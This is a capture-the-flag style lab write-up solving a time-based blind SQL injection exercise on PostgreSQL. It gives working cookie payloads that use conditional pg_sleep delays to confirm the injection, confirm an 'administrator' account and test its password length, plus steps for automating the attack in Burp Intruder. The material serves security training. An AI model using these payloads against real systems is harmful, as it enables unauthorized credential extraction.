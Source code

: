 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/235337277-b7cfdf45-ee8c-4f35-a1b6-9f61d84c060c.png)

## Solution :

The captured request is as follows ,

![image](https://user-images.githubusercontent.com/67383098/235337385-2829f53c-2235-4c53-b6ea-411c43fbb084.png)


The query looks somethiung like this :

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''
```

#### Confirm that blind sql injection works -

Modify the cookie value

Since it is a POSTgreSQL , we use the following syntax

![image](https://user-images.githubusercontent.com/67383098/235337455-806b3524-1ab6-4846-8487-82a7ced09c22.png)


```sql
TrackingId=x';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```
We get response after 10 sec delay, which confirms the blind SQL injection vulnerability

![image](https://user-images.githubusercontent.com/67383098/235337495-e2c7812c-6c28-4eb1-8e72-28c31d2e3d5e.png)

Change the boolean condition (1=2) to verify it

```sql
TrackingId=x';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

We get a response immediately which means the condition failed (1=2)

![image](https://user-images.githubusercontent.com/67383098/235337615-342a6611-96e3-4c40-b6aa-7cc03364d02f.png)

#### Verify administrator user exists -


```sql
TrackingId=x';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```
It takes 10 sec to respond which means there is indeed a user called administrator

![image](https://user-images.githubusercontent.com/67383098/235337755-ba4a4955-df05-4ec8-858f-759d7e226669.png)

#### Find the length of admin's password -

To determine how many characters are in the password of the administrator user. To do this, change the value to: 

The below payload checks if the length is > 1.

```sql
';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

![image](https://user-images.githubusercontent.com/67383098/235337977-f06373ee-39e8-4520-9ace-649ed5ca5d02.png)


It takes 10 sec delay to respond which means it is > 1 character.

Automate this process,

1. Send the req to intruder
2. Add length of password part as payload *(>1)*
3. Payload type - Sniper
4. Payload - Numbers (1 to 50 with step 1)

Add an extra column called `Response Received` to show the response time of each request.























